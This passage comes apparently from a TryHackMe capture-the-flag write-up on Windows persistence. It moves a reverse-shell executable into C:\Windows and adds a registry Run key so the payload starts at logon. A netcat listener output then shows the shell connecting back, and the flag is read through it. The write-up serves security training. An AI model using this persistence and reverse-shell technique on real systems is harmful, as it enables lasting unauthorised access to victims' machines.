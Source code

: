 ```PowerShell
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   5:31 PM           7168 revshell.exe
```
8. `move <PAYLOAD NAME>.exe <DESTINATION PATH>` from the compromised Windows machine to move our payload into the **C:\Windows** directory
```PowerShell
PS C:\Users\Administrator>move revshell.exe C:\Windows
        1 file(s) moved.
```
9. `regedit` from the compromised Windows machine to launch the Registry Editor (**regedit**), which we'll then go to the **HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run** registry, which contains information about programs and processes that are configured to run automatically when Windows starts up, to create a new **REG_EXPAND_SZ** registry that'll have a value that corresponds to the full path of the command that we'd want to execute when the compromised Windows machine starts up, which is found over at **C:\Windows\<PAYLOAD NAME>.exe**
```PowerShell
PS C:\Users\Administrator> regedit
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20Open.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20HKEY_LOCAL_MACHINE%20Software%20Microsoft%20Windows%20CurrentVersion%20Run.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20HKEY_LOCAL_MACHINE%20Software%20Microsoft%20Windows%20CurrentVersion%20Run%20Payload.png)

10. After successfully creating the new registry, we'll sign out and then sign back into the compromised machine, which should execute our payload once it's done starting up and connect to our attack machine's active netcat listener, which it did

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Sign%20Out.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnect.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnected.png)

```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.236.33 49943 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
11. `C:\flags\flag11.exe` from our reverse shell on our attack machine to run the **flag11.exe** program, which ended up containing the task's flag and displaying it onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag11.exe
C:\flags\flag11.exe
THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}
```
